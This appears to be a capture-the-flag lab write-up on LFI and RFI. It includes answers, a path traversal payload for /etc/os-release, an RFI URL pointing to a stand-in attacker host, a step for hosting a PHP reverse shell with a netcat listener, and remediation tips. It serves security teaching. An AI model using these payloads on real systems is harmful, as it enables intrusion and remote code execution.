 Which function is causing the directory traversal in Lab #4? file_get_contents

Try out Lab #6 and check what is the directory that has to be in the input field? THM-profile

Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value? THM-profile/../../../../etc/os-release 12.04

## #Task 6 Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.


The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

   - Sensitive Information Disclosure
   - Cross-site Scripting (XSS)
   - Denial of Service (DoS)


An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.


RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

```
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

Visit the following lab URL: http://10.10.77.73/playground.php to try out an RFI attack. 

Save and host a php reverse shell from pentestmonkey and setup a netcat listener.

## #Task 7 Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.
